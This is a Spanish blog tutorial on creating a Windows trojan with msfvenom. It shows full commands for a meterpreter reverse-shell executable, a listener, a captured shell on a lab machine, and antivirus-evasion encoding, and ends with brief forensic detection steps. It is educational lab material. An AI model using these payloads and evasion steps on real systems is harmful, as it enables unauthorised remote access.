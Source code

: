 ```yaml
---
date: 2022-04-27T22:40:05.000Z
layout: post
comments: true
title: Creación de malware
subtitle: 'por medio de msfvenom'
description: >-
image: >-
    http://imgfz.com/i/kAO6vGe.png
optimized_image: >-
  http://imgfz.com/i/kAO6vGe.png
category: ciberseguridad
tags:
  - reverse
  - malware
  - troyano
  - msfvenom
  - handler
  - metasploit
  - meterpreter
  - explotación
  - linux
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


### Msfvenom

Es un generador de carga útil independiente. Es una combinación de Msfpayload y Msfencode. Es rápido y utiliza una sola instancia. También tiene opciones de línea de comando estandarizadas. Puede generar cargas útiles para tantas plataformas como Cisco, Android, OSX, BSD, Solaris, Firefox, Windows, Unix, Nodejs y mucho más.

Para empezar creamos un ejecutable malicioso, el cual por defecto será para arquitecturas x32. Para asignar x64 se debe asignar windows/x64/meterpreter/reverse_tcp.

```bash
┌─[root@kali]─[/home/user/malware]
└──╼ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.1.1.19 lport=9999 -f exe -o poc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: poc.exe
```
El ejecutable lo trasladamos a la máquina victima:

![1](http://imgfz.com/i/MXWNr4G.png)

Ahora procedemos a ponernos a la escucha:

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > set LHOST 10.1.1.19
LHOST => 10.1.1.19
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.1.1.19:9999 
```
Ahora ejecutamos el troyano en la máquina victima:

![2](http://imgfz.com/i/IxQi5sr.png)

Se recibe y crea la sesión en nuestra máquina:

```
[*] Sending stage (175174 bytes) to 10.1.1.5
[*] Meterpreter session 1 opened (10.1.1.19:9999 -> 10.1.1.5:1204 ) at 2022-04-27 19:46:16 -0400

meterpreter > shell
Process 356 created.
Channel 1 created.
Microsoft Windows [Versi�n 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.

C:\Users\Demo\Desktop>whoami
whoami
demo-pc\demo

C:\Users\Demo\Desktop>ipconfig
ipconfig

Configuraci�n IP de Windows


Adaptador de Ethernet Conexi�n de �rea local:

   Sufijo DNS espec�fico para la conexi�n. . : 
   Direcci�n IPv6 . . . . . . . . . . : fd17:625c:f037:101:38fa:7c31:76d4:8fb7
   Direcci�n IPv6 temporal. . . . . . : fd17:625c:f037:101:d4c7:ff3e:dc1b:b81b
   V�nculo: direcci�n IPv6 local. . . : fe80::38fa:7c31:76d4:8fb7%11
   Direcci�n IPv4. . . . . . . . . . . . . . : 10.1.1.5
   M�scara de subred . . . . . . . . . . . . : 255.255.255.0
   Puerta de enlace predeterminada . . . . . : fe80::5054:ff:fe12:3500%11
                                       10.1.1.1

Adaptador de t�nel isatap.{013659A2-A2D8-4DE0-AF04-BB55011CFF79}:

   Estado de los medios. . . . . . . . . . . : medios desconectados
   Sufijo DNS espec�fico para la conexi�n. . : 

C:\Users\Demo\Desktop>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 4479-B434

 Directorio de C:\Users\Demo\Desktop

27-04-2022  20:44    <DIR>          .
27-04-2022  20:44    <DIR>          ..
17-03-2021  04:06               925 Nmap - Zenmap GUI.lnk
27-04-2022  20:38            73.802 poc.exe
               2 archivos         74.727 bytes
               2 dirs  20.974.960.640 bytes libres
```

### Codificar malware

Esto sirve para intentar ocultar el malware y que este no sea detectado dentro del sistema:

```
┌─[root@kali]─[/home/user/malware]
└──╼ msfvenom -p windows/meterpreter/reverse_tcp -i 10 -e x86/shikata_ga_nai lhost=10.1.1.19 lport=9999 -f exe -o poc2.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai succeeded with size 462 (iteration=3)
x86/shikata_ga_nai succeeded with size 489 (iteration=4)
x86/shikata_ga_nai succeeded with size 516 (iteration=5)
x86/shikata_ga_nai succeeded with size 543 (iteration=6)
x86/shikata_ga_nai succeeded with size 570 (iteration=7)
x86/shikata_ga_nai succeeded with size 597 (iteration=8)
x86/shikata_ga_nai succeeded with size 624 (iteration=9)
x86/shikata_ga_nai chosen with final size 624
Payload size: 624 bytes
Final size of exe file: 73802 bytes
Saved as: poc2.exe

```

Para ver la lista de codificadores que contiene msfvenom de deber realizar lo siguiente:

```
┌─[root@kali]─[/home/user/malware]
└──╼ msfvenom -l encoders
```

>Otra forma recomendada para evitar que sea detectado el malware es por medio de la herramienta [Phantom-Evasion](https://github.com/oddcod3/Phantom-Evasion).


### Forense

Ahora desde el lado de la víctima ¿cómo se descubre que se está ejecutando un proceso como este?. La respuesta es a través de dos comandos, iniciando por ```netstat```:

![3](http://imgfz.com/i/jCP63Yc.png)

Se identifica un puerto extraño. Ahora a través de ```tasklist``` y con el PID que en este caso es 1004, podremos descubrir cual es el troyano en ejecución:

![4](http://imgfz.com/i/UyWCaxj.png)

Si seguimos bajando lo podremos detectar:

![5](http://imgfz.com/i/TQVYPH2.png)
